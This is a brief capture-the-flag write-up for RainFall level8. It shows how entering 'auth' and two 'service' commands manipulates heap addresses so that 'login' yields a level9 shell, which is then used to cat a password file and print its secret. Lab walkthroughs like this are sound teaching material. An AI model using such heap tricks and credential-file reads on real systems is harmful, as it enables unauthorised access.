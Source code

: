 For this one, we tried a few things. Looking into the source code, we managed to understand that we must put `auth ` or `service` to change the value of 2 addresses.
We must provide at least one of each, otherwise it will segfault when we try to `login`.
So we tried a few things, and it works with one `auth `  followed by two `service`.

> level8@RainFall:~$ ./level8 
> (nil), (nil)
> auth  
> 0x804a008, (nil) 
> service  
> 0x804a008, 0x804a018  
> service  
> 0x804a008, 0x804a028
> login 
> $ whoami 
> level9 
> $ cat /home/user/level9/.pass 
> c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

